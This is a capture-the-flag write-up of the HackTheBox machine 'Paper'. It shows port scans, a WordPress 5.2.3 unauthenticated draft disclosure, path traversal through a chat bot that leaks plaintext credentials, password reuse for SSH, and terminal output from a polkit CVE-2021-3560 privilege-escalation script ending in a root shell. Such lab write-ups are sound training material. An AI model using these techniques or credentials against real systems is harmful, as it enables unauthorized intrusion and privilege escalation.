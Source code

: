 ```yaml
---
description: Paper box from HackTheBox write up.
password: d7c2fceac37528a07e5816f1d072d430
---
```


# Paper

## Nmap scan

Time for the typical full ports basic Nmap scan and a more detailed one once we know what is open:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 1000 10.10.11.143    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 06:12 EDT
Nmap scan report for 10.10.11.143
Host is up (0.055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 30.77 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80,443 -sC -sV 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 06:13 EDT
Nmap scan report for 10.10.11.143
Host is up (0.051s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
```

Looking at the open ports I think we can go for the webpage first.

## HTTP server

We are welcomed by an Apache test webpage, the thing is that Gobuster did not find anything. I tried Nikto to see if it finds something:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Paper]
└─$ nikto -host http://10.10.11.143/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.143
+ Target Hostname:    10.10.11.143
+ Target Port:        80
+ Start Time:         2022-05-31 06:55:29 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-backend-server' found, with contents: office.paper
...
```

That uncommon header `office.paper` is interesting, I tried that as domain to see if there are virtual hosts in place and I was able to access a Wordpress application.

### Wordpress

The Wordpress version is 5.2.3 and I found this comment in one of the posts:

```
Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
```

Researching a bit I stumbled with this: [https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/){:target="_blank"} which talk about a vulnerability in this Wordpress version that allows an attacker to get secret contents just by adding `?static=1` to the URL. This is the result:

```
...
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.
...
```

Cool, we got another virtual host and also a way of registering to the chat application hosted there, let's add the domain to our `hosts` file and let's see how it goes.


### Rocket Chat

After registering a user we can explore this chat service a bit. Looks like there is a bot that let us get files from the system, in theory it only allow us to get file from inside a certain folder but is pretty easy to bypass using relative paths: `../something`. We can't inject command though.

Exploring the folder a bit I was able to leak the bot environment variables the with `../hubot/.env`. Inside that file we have credentials for the bot account: `recyclops:Queenofblad3s!23`, the problem is that the bot can't access the web interface and the API looks like is only reachable from localhost. The thing is... looking at the directory listing we see the user in the machine: `dwight` so maybe it likes to reuse passwords.

I tried `dwight:Queenofblad3s!23` as credentials for the SSH service and I got access!

## In the machine as dwight

To be honest this part was pretty fast. After some basic enumeration I launched Linpeas and immediately CVE-2021-3560 appeared as vector, I used this PoC: [https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation){:target="_blank"}:

```bash
[dwight@paper meh]$ ./CVE-2021-3560.sh -p=123

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper meh]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]#
```

The `root` flag is under `/root/root.txt`.
